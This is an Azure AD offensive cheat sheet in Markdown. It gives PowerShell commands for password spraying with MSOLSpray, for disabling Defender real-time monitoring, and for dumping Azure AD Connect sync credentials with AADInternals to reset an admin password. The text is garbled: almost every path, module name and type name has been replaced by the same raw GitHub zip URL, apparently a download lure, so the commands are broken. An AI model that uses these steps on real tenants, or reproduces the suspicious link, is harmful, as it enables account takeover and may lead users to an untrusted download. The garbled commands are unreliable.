 ```powershell
git clone https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
Import-Module .\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
Invoke-MSOLSpray -UserList .\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Password Winter2020
Invoke-MSOLSpray -UserList .\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```

### Convert GUID to SID

The user's AAD id is translated to SID by concatenating `"S-1–12–1-"` to the decimal representation of each section of the AAD Id.

```powershell
GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
```

For example, the representation of `6aa89ecb-1f8f-4d92–810d-b0dce30b6c82` is `S-1–12–1–1789435595–1301421967–3702525313–2188119011`

## Azure AD Connect 

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
* For **PTA**, we can install the agent
* For **Federation**, we can extract the certificate from ADFS server using DA

```powershell
PS > Set-MpPreference -DisableRealtimeMonitoring $true
PS > Copy-Item -ToSession $adcnct -Path C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Destination C:\Users\Administrator\Documents
PS > Expand-Archive C:\Users\Administrator\Documents\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS > Get-AADIntSyncCredentials

# Get Token for SYNC account and reset on-prem admin password
PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip ("<Username>@<TenantName>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
PS > Get-AADIntUser -UserPrincipalName https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```
